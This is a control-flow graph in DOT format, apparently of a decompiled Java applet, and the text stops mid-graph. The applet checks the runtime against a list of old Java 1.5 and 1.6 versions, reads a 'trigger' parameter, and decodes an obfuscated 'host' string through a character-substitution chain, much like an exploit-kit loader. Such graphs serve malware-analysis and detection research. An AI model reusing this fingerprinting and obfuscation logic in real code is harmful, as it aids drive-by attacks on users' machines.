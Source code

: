 digraph "" {
    "r0 := @this: a"
    "push \"java.version\""
    "r0 := @this: a"->"push \"java.version\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r1"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "push \"trigger\""
    "load.r r0"->"push \"trigger\"";
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"
    "push \"trigger\""->"virtualinvoke <a: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "load.r r1"
    "store.r r2"->"load.r r1";
    "push \"1.5.0\""
    "load.r r1"->"push \"1.5.0\"";
    "ifcmpeq.r load.r r0"
    "push \"1.5.0\""->"ifcmpeq.r load.r r0";
    "ifcmpeq.r load.r r0"->"load.r r1";
    "push \"1.5.0_01\""
    "load.r r1"->"push \"1.5.0_01\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i load.r r0"
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_02\""
    "load.r r1"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_03\""
    "load.r r1"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_04\""
    "load.r r1"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_05\""
    "load.r r1"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_06\""
    "load.r r1"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_07\""
    "load.r r1"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_08\""
    "load.r r1"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_09\""
    "load.r r1"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_10\""
    "load.r r1"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_11\""
    "load.r r1"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_12\""
    "load.r r1"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_13\""
    "load.r r1"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_14\""
    "load.r r1"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_15\""
    "load.r r1"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_16\""
    "load.r r1"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_17\""
    "load.r r1"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_18\""
    "load.r r1"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_19\""
    "load.r r1"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_20\""
    "load.r r1"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_21\""
    "load.r r1"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_22\""
    "load.r r1"->"push \"1.5.0_22\"";
    "push \"1.5.0_22\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.5.0_23\""
    "load.r r1"->"push \"1.5.0_23\"";
    "push \"1.5.0_23\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0\""
    "load.r r1"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r load.r r0";
    "ifcmpeq.r load.r r0"->"load.r r1";
    "push \"1.6.0_01\""
    "load.r r1"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_02\""
    "load.r r1"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_03\""
    "load.r r1"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_04\""
    "load.r r1"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_05\""
    "load.r r1"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_06\""
    "load.r r1"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_07\""
    "load.r r1"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_08\""
    "load.r r1"->"push \"1.6.0_08\"";
    "push \"1.6.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_09\""
    "load.r r1"->"push \"1.6.0_09\"";
    "push \"1.6.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_10\""
    "load.r r1"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_11\""
    "load.r r1"->"push \"1.6.0_11\"";
    "push \"1.6.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_12\""
    "load.r r1"->"push \"1.6.0_12\"";
    "push \"1.6.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_13\""
    "load.r r1"->"push \"1.6.0_13\"";
    "push \"1.6.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_14\""
    "load.r r1"->"push \"1.6.0_14\"";
    "push \"1.6.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_15\""
    "load.r r1"->"push \"1.6.0_15\"";
    "push \"1.6.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_16\""
    "load.r r1"->"push \"1.6.0_16\"";
    "push \"1.6.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_17\""
    "load.r r1"->"push \"1.6.0_17\"";
    "push \"1.6.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i load.r r0";
    "ifcmpne.i load.r r0"->"load.r r1";
    "push \"1.6.0_18\""
    "load.r r1"->"push \"1.6.0_18\"";
    "push \"1.6.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r2"
    "push -1"->"ifcmpeq.i load.r r2";
    "ifcmpeq.i load.r r2"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "dup1.r"
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 66"
    "push 0"->"push 66";
    "arraywrite.i"
    "push 66"->"arraywrite.i";
    "staticinvoke <a: java.lang.String decrypt(int[])>"
    "arraywrite.i"->"staticinvoke <a: java.lang.String decrypt(int[])>";
    "staticinvoke <a: java.lang.String decrypt(int[])>"->"virtualinvoke <a: java.lang.String getParameter(java.lang.String)>";
    "staticput <a: java.lang.String host>"
    "virtualinvoke <a: java.lang.String getParameter(java.lang.String)>"->"staticput <a: java.lang.String host>";
    "new java.lang.StringBuilder"
    "staticput <a: java.lang.String host>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "staticget <a: java.lang.String host>"
    "dup1.r"->"staticget <a: java.lang.String host>";
    "push \"F\""
    "staticget <a: java.lang.String host>"->"push \"F\"";
    "push \"a\""
    "push \"F\""->"push \"a\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"a\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"#\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"#\"";
    "push \"b\""
    "push \"#\""->"push \"b\"";
    "push \"b\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"V\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"V\"";
    "push \"c\""
    "push \"V\""->"push \"c\"";
    "push \"c\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"D\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"D\"";
    "push \"d\""
    "push \"D\""->"push \"d\"";
    "push \"d\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"@\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"@\"";
    "push \"e\""
    "push \"@\""->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Y\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Y\"";
    "push \"f\""
    "push \"Y\""->"push \"f\"";
    "push \"f\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"C\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"C\"";
    "push \"g\""
    "push \"C\""->"push \"g\"";
    "push \"g\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"R\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"R\"";
    "push \"h\""
    "push \"R\""->"push \"h\"";
    "push \"h\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \";\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \";\"";
    "push \"i\""
    "push \";\""->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"L\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"L\"";
    "push \"j\""
    "push \"L\""->"push \"j\"";
    "push \"j\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"K\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"K\"";
    "push \"-\""
    "push \"K\""->"push \"-\"";
    "push \"-\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"U\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"U\"";
    "push \"k\""
    "push \"U\""->"push \"k\"";
    "push \"k\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"^\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"^\"";
    "push \"l\""
    "push \"^\""->"push \"l\"";
    "push \"l\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Z\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Z\"";
    "push \"m\""
    "push \"Z\""->"push \"m\"";
    "push \"m\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"B\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"B\"";
    "push \"n\""
    "push \"B\""->"push \"n\"";
    "push \"n\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"Q\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"Q\"";
    "push \"o\""
    "push \"Q\""->"push \"o\"";
    "push \"o\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"=\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"=\"";
    "push \"p\""
    "push \"=\""->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"&\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"&\"";
    "push \"q\""
    "push \"&\""->"push \"q\"";
    "push \"q\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"M\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"M\"";
    "push \"r\""
    "push \"M\""->"push \"r\"";
    "push \"r\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"G\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"G\"";
    "push \"s\""
    "push \"G\""->"push \"s\"";
    "push \"s\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"S\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"S\"";
    "push \"t\""
    "push \"S\""->"push \"t\"";
    "push \"t\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"!\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"!\"";
    "push \"u\""
    "push \"!\""->"push \"u\"";
    "push \"u\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"W\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"W\"";
    "push \"v\""
    "push \"W\""->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"%\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"%\"";
    "push \"w\""
    "push \"%\""->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"H\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"H\"";
    "push \"x\""
    "push \"H\""->"push \"x\"";
    "push \"x\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"P\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"P\"";
    "push \"y\""
    "push \"P\""->"push \"y\"";
    "push \"y\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"?\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"?\"";
    "push \"z\""
    "push \"?\""->"push \"z\"";
    "push \"z\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"T\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"T\"";
    "push \"/\""
    "push \"T\""->"push \"/\"";
    "push \"/\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"I\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"I\"";
    "push \".\""
    "push \"I\""->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"K\"";
    "push \"_\""
    "push \"K\""->"push \"_\"";
    "push \"_\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"(\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"(\"";
    "push \"(\""->"push \"_\"";
    "push \"_\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \",\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \",\"";
    "push \":\""
    "push \",\""->"push \":\"";
    "push \":\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"A\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"A\"";
    "push \"1\""
    "push \"A\""->"push \"1\"";
    "push \"1\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"N\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"N\"";
    "push \"2\""
    "push \"N\""->"push \"2\"";
    "push \"2\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"*\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"*\"";
    "push \"3\""
    "push \"*\""->"push \"3\"";
    "push \"3\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"J\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"J\"";
    "push \"4\""
    "push \"J\""->"push \"4\"";
    "push \"4\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \")\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \")\"";
    "push \"5\""
    "push \")\""->"push \"5\"";
    "push \"5\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"O\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"O\"";
    "push \"6\""
    "push \"O\""->"push \"6\"";
    "push \"6\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"$\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"$\"";
    "push \"7\""
    "push \"$\""->"push \"7\"";
    "push \"7\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"X\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"X\"";
    "push \"8\""
    "push \"X\""->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"+\""
